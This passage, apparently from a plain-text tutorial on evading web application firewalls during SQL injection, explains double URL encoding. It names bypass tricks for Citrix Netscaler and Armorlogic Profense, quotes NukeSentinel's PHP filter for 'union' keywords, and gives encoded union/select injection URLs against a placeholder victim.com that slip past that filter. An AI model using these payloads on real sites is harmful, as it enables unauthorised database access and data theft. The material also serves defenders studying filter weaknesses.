

	4. Character encoding

		Most CMSs and WAFs will decode and filter/bypass an application input, but some WAFs only decode the input once so 
		double encoding can bypass certain filters as the WAF will decode the input once then filter while application keep
		decoding the SQL statement executing
	
		[Code]-----------------------------------------------------------------------------------------------------------------
		http://victim.com/news.php?id=1%252f%252a*/union%252f%252a /select%252f%252a*/1,2,3%252f%252a*/from%252f%252a*/users--
		[End Code]-------------------------------------------------------------------------------------------------------------
				
		Moreover, these techniques can combine to bypass Citrix Netscaler
			- Remove all "NULL" words
			- Use query encoding in some parts
			- Remove the single quote character "'"
			- And Have fun !!
			Credit: Wendel Guglielmetti Henrique	
		
		and "Armorlogic Profense"  prior to 2.4.4 was bypassed by URL-encoded newline character.


		#Real World Example
		
		1. NukeSentinel (Nuke Evolution)
		
		[Nukesentinel.php Code]------------------------------------------------------------
		// Check for UNION attack
		// Copyright 2004(c) Raven PHP Scripts
		$blocker_row = $blocker_array[1];
		if($blocker_row['activate'] > 0) {
 		 if (stristr($nsnst_const['query_string'],'+union+') OR \
		stristr($nsnst_const['query_string'],'%20union%20') OR \
		stristr($nsnst_const['query_string'],'*/union/*') OR \
		stristr($nsnst_const['query_string'],' union ') OR \
		stristr($nsnst_const['query_string_base64'],'+union+') OR \
		stristr($nsnst_const['query_string_base64'],'%20union%20') OR \
		stristr($nsnst_const['query_string_base64'],'*/union/*') OR \
		stristr($nsnst_const['query_string_base64'],' union ')) {  // block_ip($blocker_row);
		   die("BLOCK IP 1 " );
		  }
		}
		[End Code]-------------------------------------------------------------------------

		We can bypass their filtering with these script:
		
		Forbidden: http://victim.com/php-nuke/?/**/union/**/select..
		Bypassed : http://victim.com/php-nuke/?/%2A%2A/union/%2A%2A/select
		Bypassed : http://victim.com/php-nuke/?%2f**%2funion%2f**%2fselect


		2. Mod Security CRS (Credit: Johannes Dahse)
		